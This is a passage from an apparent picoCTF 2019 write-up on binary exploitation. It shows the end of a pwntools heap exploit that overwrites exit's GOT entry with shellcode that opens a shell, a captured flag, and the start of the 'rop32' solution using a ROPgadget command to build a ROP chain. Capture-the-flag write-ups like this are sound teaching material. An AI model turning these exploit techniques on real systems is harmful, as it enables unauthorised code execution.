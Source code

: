 ```python
exit_got = 0x0804d02c

payload = p32(exit_got-12) 
payload += p32(leak+8)
payload += asm('''
  jmp sc
  {}
sc:
  nop
  '''.format('nop\n'*100)+shellcraft.i386.linux.sh())
print enhex(payload)

assert len(payload) <= 256

payload = payload.ljust(256)

sh.sendlineafter('...\n', payload)

sh.interactive()
```

flag: `picoCTF{HeapHeapFlag_d11a9aaf}`

# rop32

## Problem

Can you exploit the following program to get a flag? You can find the program in /problems/rop32_3_f3a10b5fa410146f5328fb7b3e63e7c0 on the shell server. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/rop32/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/rop32/vuln.c)

## Solution

Based on the challenge name and the fact that the binary is statically compiled, we can tell that this is a pure ROP challenge where we need to get code execution:

```
$ r2 ./vuln
[0x08048730]> i~static
static   true
```

The hard way to approach this type of problems is to do it manually, but I prefer to do it with an automated tool which is the easy way out:

```
$ ROPgadget --binary ./vuln --rop --badbytes "0a"
```

Running the command above produces an exploit payload that you can just copy and paste into your script.
